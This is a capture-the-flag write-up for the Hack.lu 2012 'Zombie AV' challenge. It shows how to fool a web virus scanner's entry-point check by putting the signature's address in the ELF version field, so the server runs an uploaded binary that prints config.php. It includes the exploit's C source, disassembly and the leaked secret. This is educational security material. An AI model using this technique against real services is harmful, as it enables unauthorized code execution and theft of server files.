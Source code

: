 ```yaml
---
title: Hack.lu CTF 2012 -- Zombie AV
categories: ctf
---
```


This problem presents a web-based AV scanner.  If you upload the zombie virus, the server runs it; otherwise it tells you that the file you provided does not contain the zombie virus.  Our goal is to get the contents of config.php.

When you submit a non-infected binary, you get output like:

    analysing file 79826432fa989a93fd7acfaca92f5880
    8048330:  31 ed                 xor    %ebp,%ebp
     8048332: 5e                    pop    %esi
     8048333: 89 e1                 mov    %esp,%ecx
     8048335: 83 e4 f0              and    $0xfffffff0,%esp
     8048338: 50                    push   %eax
     8048339: 54                    push   %esp
     804833a: 52                    push   %edx
     804833b: 68 10 84 04 08        push   $0x8048410
     8048340: 68 20 84 04 08        push   $0x8048420
     8048345: 51                    push   %ecx
     8048346: 56                    push   %esi
     8048347: 68 e4 83 04 08        push   $0x80483e4
     804834c: e8 cb ff ff ff        call   804831c <__libc_start_main@plt>
     8048351: f4                    hlt
     8048352: 90                    nop
     8048353: 90                    nop
     8048354: 90                    nop
     8048355: 90
    Entry Opcodes are: 31 ed 5e 89 e1 83 e4 f0 50 54 52 68
    Signature is: d87ae7dd8b166d8e2c02676d69561c96
    no zombie virus found

In `scan.php`, the signature of the zombie virus is given.  A file contains the zombie virus if the first 12 opcodes following its entry point are:

{% highlight c %}
/*
 * hint: zombie virus signature is
 * 8048340: b0 01                 mov    $0x1,%al
 * 8048342: 90                    nop
 * 8048343: 90                    nop
 * 8048344: 90                    nop
 * 8048345: 90                    nop
 * 8048346: 90                    nop
 * 8048347: 90                    nop
 * 8048348: 90                    nop
 * 8048349: 90                    nop
 * 804834a: cd 80                 int    $0x80
 */
{% endhighlight %}

This code looks like it immediately calls syscall 1 (exit), so we need to find another way than just including these at the beginning of our code.  (Actually, it turns out that this is not the case -- the first op sets al rather than eal, so the effective syscall number retains the high bits of eal, but we didn't notice or test this.)

Analyzing the code, it seems the entry point address is determined by running the binary through `readelf -h` and looking for the first string that matches `/0x[a-fA-F0-9]{5,8}/`.  Typically, that output looks like:

    ELF Header:
      Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00
      Class:                             ELF32
      Data:                              2's complement, little endian
      Version:                           1 (current)
      OS/ABI:                            UNIX - System V
      ABI Version:                       0
      Type:                              EXEC (Executable file)
      Machine:                           Intel 80386
      Version:                           0x1
      Entry point address:               0x8048330
      Start of program headers:          52 (bytes into file)
      Start of section headers:          4392 (bytes into file)
      Flags:                             0x0
      Size of this header:               52 (bytes)
      Size of program headers:           32 (bytes)
      Number of program headers:         8
      Size of section headers:           40 (bytes)
      Number of section headers:         30
      Section header string table index: 27

In this case, the first match is indeed the entry point, but there's another field printed in hex earlier -- the binary version.  It turns out that we control this field, and the ELF parser doesn't care about its value.  Let's include the zombie opcodes in our binary, then set the version number to the address of those opcodes.  Here's our `zombo_virus.c`:

{% highlight c %}
int main() {
  system("cat config.php");
  __asm__("mov    $0x1,%al");
  __asm__("nop");
  __asm__("nop");
  __asm__("nop");
  __asm__("nop");
  __asm__("nop");
  __asm__("nop");
  __asm__("nop");
  __asm__("nop");
  __asm__("int    $0x80");
}
{% endhighlight %}

Compiling this and running it through `objdump -d` reveals the address of the zombie signature:

    ...
    080483e4 <main>:
     80483e4: 55                    push   %ebp
     80483e5: 89 e5                 mov    %esp,%ebp
     80483e7: 83 e4 f0              and    $0xfffffff0,%esp
     80483ea: 83 ec 10              sub    $0x10,%esp
     80483ed: c7 04 24 d0 84 04 08  movl   $0x80484d0,(%esp)
     80483f4: e8 13 ff ff ff        call   804830c <system@plt>
     80483f9: b0 01                 mov    $0x1,%al
     80483fb: 90                    nop
     80483fc: 90                    nop
     80483fd: 90                    nop
     80483fe: 90                    nop
     80483ff: 90                    nop
     8048400: 90                    nop
     8048401: 90                    nop
     8048402: 90                    nop
     8048403: cd 80                 int    $0x80
    ...

So, it lives at `0x80483f9`.  Using your favorite ELF editor (we used [`hte`](http://hte.sourceforge.net/)), edit the resulting binary to have that as a version:

    ELF Header:
      Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00
      Class:                             ELF32
      Data:                              2's complement, little endian
      Version:                           1 (current)
      OS/ABI:                            UNIX - System V
      ABI Version:                       0
      Type:                              EXEC (Executable file)
      Machine:                           Intel 80386
      Version:                           0x80483f9
      Entry point address:               0x8048330
      Start of program headers:          52 (bytes into file)
      Start of section headers:          4392 (bytes into file)
      Flags:                             0x0
      Size of this header:               52 (bytes)
      Size of program headers:           32 (bytes)
      Number of program headers:         8
      Size of section headers:           40 (bytes)
      Number of section headers:         30
      Section header string table index: 27

Now submit it!

    analysing file c39d143ac2432849d61fd144a0d13abc
    80483f9:  b0 01                 mov    $0x1,%al
     80483fb: 90                    nop
     80483fc: 90                    nop
     80483fd: 90                    nop
     80483fe: 90                    nop
     80483ff: 90                    nop
     8048400: 90                    nop
     8048401: 90                    nop
     8048402: 90                    nop
     8048403: cd 80                 int    $0x80
     8048405: c9                    leave
     8048406: c3                    ret
     8048407: 90                    nop
     8048408: 90                    nop
     8048409: 90                    nop
     804840a: 90                    nop
     804840b: 90                    nop
     804840c: 90                    nop
     804840d: 90                    nop
     804840e: 90                    nop
     804840f: 90                    nop

    08048410 <__lib
    Entry Opcodes are: b0 01 90 90 90 90 90 90 90 90 cd 80
    Signature is: cd53b957ec552afb39cba6daed7a9abc
    found zombie virus, trying to execute it
    <?php

    $readelfpath='/usr/bin/readelf';
    $objdumppath='/usr/bin/objdump';
    $uploadpath='upload/';
    $scriptpath='/var/www/';
    $secret='55c4080daefb5f794c3527101882b50b';

    ?>
    done we are safe

There's the flag:  `55c4080daefb5f794c3527101882b50b`.